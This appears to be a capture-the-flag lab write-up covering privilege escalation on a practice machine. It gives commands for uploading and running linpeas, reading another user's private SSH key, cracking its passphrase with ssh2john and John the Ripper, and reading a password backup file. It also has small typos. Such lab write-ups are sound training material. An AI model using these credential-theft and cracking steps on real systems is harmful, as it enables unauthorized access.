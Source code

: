 ## linpeas

Use linpeas injected via ssh with jan's account gained password to find privilege escalation paths.

### Commands
{: .no_toc}

```` console
Use scp to transfer linpeas.sh to target 
scp /usr/share/peass/linpeas/linpeas.sh jan@{IP-Address}:{target path}
and then ssh into target execute the script with
./linpeas.sh | teee linlog.txt
````

### Findings
{: .no_toc}

Found readable: /home/kay/.ssh/id_rsa

## SSH

Use Jan's ssh credentials to sniff around.

```` console

`cat /home/kay/.ssh/id_rsa` and copy it 
on local host `nano kay_id_rsa` paste and save the file
````

### Findings
{: .no_toc}

Found Kay's private ssh keys (id_rsa)

## John the Ripper

Use John the Ripper to find Kays password from is private key.

### Commands
{: .no_toc}

Run `ssh2john kay_id_rsa > john4kay.txt` to decrypt the private key to a text file readable by John
Run `john john4kay.txt --wordlist=/usr/share/wordlists/rockyou.txt` to reveal the ssh password ("beeswax")
use the ssh password and the id_rsa file to login via ssh as kay `ssh -i kay_id_rsa kay@{IP-Address}`
`ls` in kay's home dir shows a `pass.back` file
`cat pass.bak` reveals his password ("heresareallystrongpasswordthatfollowsthepasswordpolicy$$")

### Findings
{: .no_toc}

kay's password

> WE GOT ROOT

---
